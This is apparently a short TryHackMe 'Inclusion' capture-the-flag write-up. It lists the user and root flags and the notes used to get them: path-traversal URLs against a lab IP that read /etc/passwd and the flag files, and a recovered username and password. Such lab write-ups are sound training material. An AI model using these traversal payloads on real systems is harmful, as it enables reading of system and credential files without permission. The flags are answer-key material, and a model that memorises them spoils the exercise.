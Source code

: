 # TryHackMe Inclusion

>Saikat Karmakar | Feb 26:2021

-------------------------------------------------------------------------------

# Task 2

1. user flag
```
60989655118397345799
```
2. root flag    
```
42964104845495153909
```

--
-----------
***Notes***
-----------
http://10.10.40.240/article?name=../../../../etc/passwd

```
falconfeast:rootpassword 
```
can view the contents without ssh
http://10.10.40.240/article?name=../../../../home/falconfeast/user.txt
http://10.10.40.240/article?name=../../../../root/root.txt
